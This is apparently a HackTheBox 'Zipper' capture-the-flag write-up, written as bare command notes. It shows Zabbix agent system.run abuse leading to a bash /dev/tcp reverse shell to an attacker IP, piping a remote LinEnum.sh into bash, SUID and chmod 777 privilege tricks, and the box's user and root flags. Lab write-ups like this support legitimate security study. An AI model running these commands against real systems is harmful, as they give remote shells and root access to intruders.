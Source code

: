 # HackTheBox Zipper Writeup

![date](https://img.shields.io/badge/date-02.27.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution


### Improve Shell

#### Method 1 

      > python -c 'import pty;pty.spawn("/bin/bash")'
      
      Then Press Crtl-Z
      > stty raw -echo
      > fg
      
#### Method 2      
      
      > script -q /dev/null
      
      Then Press Crtl-Z
      > stty raw -echo
      > fg
      > reset
      > export TERM=xterm
      
#### Enable UID Bit      
      > chmod 4755 /usr/bin/bash
      
      > chmod 4755 /usr/bin/vi
      > PATH=/tmp:$PATH
      > echo PATH
      > export PATH

#### Change Directory or File RW Permissions.
      box> vi /etc
      box> chmod 777

#### Exploit Zabbix Agent API to get Remote Code Execution     
      
      jason> tcpdump -i tun0 icmp
      box> echo "system.run[ping -c 1 10.10.14.7]" | nc 172.17.0.1
      
      > echo "system.run[bash -c 'nohup bash -i >& /dev/tcp/10.10.14.7/9002 0>&1 &']" | nc 172.17.0.1 10050

#### SSH to Zapper User
      
      jason> chmod 600 zapper.pem
      jason> ssh -i zapper.pem zapper@10.10.10.108

#### Ltrace zabbix-service      
      box> ltrace ./zabbix-service



      
#### LinEnum.sh
      jason> nc -lvnp 8000 < LinEnum.sh
      box> nc 10.10.14.7 8000 | bash

#### Flags      
      user Flag: aa29e93f48c64f8586448b6f6e38fe33
      root Flag: a7c743d35b8efbedfd9336492a8eab6e
#### Bonus      
Remove all spaces in a file.      
      > sed 's/  //g' -i file
      
      
